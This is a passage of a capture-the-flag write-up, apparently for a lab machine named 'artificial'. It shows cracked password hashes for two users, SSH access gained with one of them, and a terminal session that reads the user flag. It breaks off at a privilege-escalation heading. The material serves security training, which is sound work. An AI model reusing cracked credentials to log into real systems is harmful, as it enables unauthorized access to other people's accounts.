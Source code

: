 ```sh
c99175974b6e192936d97224638a34f8:mattp005numbertwo
bc25b1f80f544c0ab451c02a3dca9fc6:marwinnarak043414036
```
Here we go, we fount 2 credentials:
```go
gael::mattp005numbertwo
royer::marwinnarak043414036
```
we try ssh connection, invalid password for `royer`, connection done with `gael`'s account
```sh
$ ssh gael@10.10.11.74
gael@10.10.11.74's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon 23 Jun 2025 11:04:49 PM UTC

  System load:  0.41              Processes:             271
  Usage of /:   71.4% of 7.53GB   Users logged in:       1
  Memory usage: 38%               IPv4 address for eth0: 10.10.11.74
  Swap usage:   0%


Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Jun 23 23:04:50 2025 from 10.10.14.242
gael@artificial:~$ ls
user.txt
gael@artificial:~$ cat user.txt 
7aa05b0b86d431c40ed4fea68b686640
gael@artificial:~$ 

```
we got the `user`flag.

### Privilege escalation:
